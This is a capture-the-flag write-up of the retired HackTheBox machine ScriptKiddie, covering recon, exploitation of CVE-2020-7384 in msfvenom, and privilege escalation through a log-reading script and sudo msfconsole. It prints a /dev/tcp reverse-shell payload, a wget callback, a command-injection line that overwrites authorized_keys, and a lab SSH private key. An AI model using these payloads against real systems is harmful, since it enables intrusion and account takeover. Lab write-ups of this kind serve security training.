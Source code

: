 Title:HTB: ScriptKiddie
Date: 06-07-2021 10:25
category:security
tags:security, boot2root, HTB, msfvenom, nmap, msfconsole
meta:security, boot2root, HTB, msfvenom, nmap, msfconsole

<img class="align-left" src="/media/2021.06/sk_card.png" alt="ScriptKiddie Card" width="262">

This is a writeup about a retired HacktheBox machine:
[ScriptKiddie](https://www.hackthebox.com/home/machines/profile/314) publish on
February 6, 2021 by
[0xdf](https://www.hackthebox.com/home/users/profile/4935).
This box is rated as easy box the user part implies to use CVE-2020-7384, the
root part is just abusing a bash script and using msfconsole.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 22 (SSH) and 5000 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sun Feb  7 08:50:44 2021 as: nmap -p- -sSV -oN nmap 10.129.94.194
    Nmap scan report for 10.129.94.194
    Host is up (0.011s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Feb  7 08:51:09 2021 -- 1 IP address (1 host up) scanned in 24.16 seconds


## Web

The webpage seems to be a "hacker" personal page with a few wrapper around
classical tools as `nmap`, `msfvenom` and `searchsploit`.

![Homepage](/media/2021.06/sk_01.png){: .image-process-article-image}

The "template file" option with `msfvenom` is strange. After a few Google research we found
about CVE-2020-7384 which is "msfvenom APK template command injection" and has
[a public exploit available](https://www.exploit-db.com/exploits/49491)


We change the payload to perform a `wget` on our python server

    :::python
    # Change me
    payload = 'wget 10.10.14.64:8000'

We got a hit on our local python HTTP which confirm our RCE.

    :::text
    kali@kali:/tmp$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.94.194 - - [07/Feb/2021 09:27:09] "GET / HTTP/1.1" 200 -

We change the payload again for a reverse shell.

    :::python
    payload = 'sh -i >& /dev/tcp/10.10.14.64/4433 0>&1'

We run netcat to catch it and got the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p 4433
    id
    sh: 0: can't access tty; job control turned off
    $ uid=1000(kid) gid=1000(kid) groups=1000(kid)
    $ cd
    $ cat user.txt
    51573bc36ae7c15d3bb11c3b043a5dea

# Root

## Persistance

We look at our user home folder and get the SSH private key

    :::text
    $ ls -al
    total 60
    drwxr-xr-x 11 kid  kid  4096 Feb  3 11:49 .
    drwxr-xr-x  4 root root 4096 Feb  3 07:40 ..
    lrwxrwxrwx  1 root kid     9 Jan  5 20:31 .bash_history -> /dev/null
    -rw-r--r--  1 kid  kid   220 Feb 25  2020 .bash_logout
    -rw-r--r--  1 kid  kid  3771 Feb 25  2020 .bashrc
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .bundle
    drwx------  2 kid  kid  4096 Feb  3 07:40 .cache
    drwx------  4 kid  kid  4096 Feb  3 11:49 .gnupg
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .local
    drwxr-xr-x  9 kid  kid  4096 Feb  3 07:40 .msf4
    -rw-r--r--  1 kid  kid   807 Feb 25  2020 .profile
    drwx------  2 kid  kid  4096 Feb  3 07:40 .ssh
    -rw-r--r--  1 kid  kid     0 Jan  5 11:10 .sudo_as_admin_successful
    drwxrwxr-x  5 kid  kid  4096 Feb  7 14:25 html
    drwxrwxrwx  2 kid  kid  4096 Feb  3 07:40 logs
    drwxr-xr-x  3 kid  kid  4096 Feb  3 11:48 snap
    -r--------  1 kid  kid    33 Feb  7 13:48 user.txt
    $ ls .ssh/
    authorized_keys
    id_rsa
    id_rsa.pub
    $ cat .ssh/authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCt/
    MXWipZH4vmE0lLycTlwk0eFcEQilnSCwpQoLA9QEiFAMvopNThWyjGkst6HNPdDvSDlJEfTtW4PaOFA
    seUICcwuidMXc4xepu1t0hrfv5Wn7SiwQwIDwE0DvRRSpLIr9I0wfjjEPnvc4y7uuMvsf0hegZLMnChg
    stWWCw99DS5q0YdXxkIC7eKlI90nHyUHL3ULwXDBk6NWhPmJ90yDaFC4iD0yVP3xmjKjl0iotkqbhKhR
    AD8bUINZ7anXTw4Hb0iF5tMAttB8JbLts5zvgQtYrciKE4Qnl4F+MO5yg3G03s9V69K4R+TXmI4TZKUH
    fEpNnReQ+73uOqgjH5VeZr0TmSLEszfFfXRcv7t4jxOboYnS+lgR1V2iGHzSle+nAlVLHqlwP5RTtwaO
    wE0nbykigyz/h4KNCn0rU69fYWSrkcFPYOSm92QKmaMJuXqnycjuqLmHMD2XKSuhlpgD/VmQL34C7pju
    4h+/78qK50+itG0FCiSy6IRd5DIfTkU= kid@scriptkiddie
    $ cat .ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEArfzF1oqWR+L5hNJS8nE5cJNHhXBEIpZ0gsKUKCwPUBIhQDL6KTU4
    <SNIP>
    sOeM4jMTD4DJbb/8Jsh6yzW45V3bgPp1Hm4nI3AZ8SjSI4VqtO9CcDKtPnvh3/jm5VEx9W
    bK3NNrAo9t2tlfAAAAEGtpZEBzY3JpcHRraWRkaWUBAg==
    -----END OPENSSH PRIVATE KEY-----

## scanlosers

We can now  directly connect using SSH. Looking at the accessible files we found
that the `pwn` user has a script `scanlosers.sh` readable by our user. This
script read a log file containing "hacking" attempts and run a `nmap --top10` on
it.

    :::text
    $ ssh kid@10.129.94.194 -i sc_id_rsa
    <SNIP>

    kid@scriptkiddie:~$ cat ../pwn/scanlosers.sh
    #!/bin/bash

    log=/home/kid/logs/hackers

    cd /home/pwn/
    cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    done

    if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi


We download /home/kid/.ssh/authorized_keys localy and rename it to test a few
payload locally. The `cut -d' ' -f3-` means that the 3 first "words"
(characters separated by a space) will be dropped.

The idea is to execute a payload in order to add our SSH key to the "pwn"
user. As always we start by a simple `wget` to ensure the RCE. After a few
attempt we found the following payload that we add to the `hackers` file:

    :::text
    echo 'q w e 127.0.0.1 127.0.0.1 ; wget 10.10.14.64:8000/a -O /home/pwn/.ssh/authorized_keys  ; #' > ../kid/logs/hackers

As the "kid" private key is now also authorized for the "pown" user, we connect
using directly SSH.

    :::text
    $ ssh pwn@10.129.94.194 -i sc_id_rsa
    <SNIP>
    pwn@scriptkiddie:~$ id
    uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)

## msfconsole

Our "pown" user can run `msfconsole` as "root" without any password, which
quickly give us a shell using the `bash` msf command allowing us to get the root
flag.

    :::text
    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole

    <SNIP>
    msf6 > bash
    [*] exec: bash

    root@scriptkiddie:/home/pwn# id
    uid=0(root) gid=0(root) groups=0(root)
    root@scriptkiddie:/home/pwn# cat /root/root.txt
    b4ccca123e8efc9cc65296e42ed4cabf


# Wrapping up

An easy box exploiting a few mechanisms. The msfvenom exploit was fun to use.

